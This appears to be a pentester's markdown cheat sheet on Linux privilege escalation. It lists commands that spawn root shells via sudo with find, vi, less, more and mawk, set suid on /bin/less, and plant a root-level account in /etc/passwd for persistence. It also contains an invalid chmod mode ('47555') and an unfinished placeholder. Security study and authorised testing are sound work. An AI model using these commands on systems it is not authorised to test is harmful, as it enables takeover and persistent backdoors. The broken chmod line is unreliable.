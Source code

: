 # Privilege Escalation

### Privilege Escalation

[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

list user's sudo permissions: `sudo -l`

execute any command while in `less`: `!<cmd>`

Privilege Escalation to Root by setting suid on `/bin/less`: `chmod 47555 /bin/less`

Privilege Escalation to Root with `find`: `sudo find /etc -exec sh -i \;`

wildcard injection: \[NEED MORE HERE\]

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

If your user can `sudo` any of these text editors:

```bash
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#

1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
Note: for this method to work, the attacker has to read a file that is longer than one page
```

### Add Account/Password to /etc/passwd

Generate password with `openssl passwd -1 -salt [Username] [PASSWD]` , then add to `/etc/passwd` file which is in the format: `Username:generated password:UID:GUID:root:/root:/bin/bash` \(assumes you have write privilege to this file!\). Can be used for persistence.



